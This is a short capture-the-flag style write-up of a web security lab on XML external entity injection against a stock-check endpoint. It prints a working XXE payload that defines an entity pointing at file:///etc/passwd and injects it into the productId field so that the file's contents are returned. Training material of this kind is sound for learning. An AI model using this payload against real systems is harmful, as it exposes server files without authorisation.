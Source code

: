 # Lab: Exploiting XXE using external entities to retrieve files

>This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

>To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file.

### Observations
In the body of the `POST /product/stock` request we can see the following xml:

`<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>`

I added the following xml to the body `<test>hello</test>` and the server responded with:

<pre>"Invalid product ID: 1
hello"</pre>

Cool, so we can see that our input was reflected in the response

### Solution
I created a new external entity called xxe : `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`

I then replaced the default values of `1` with `&xxe;` so that the contents of /etc/passwd will be reflected to me. We now see the full contents of the passwd file, lab solved!
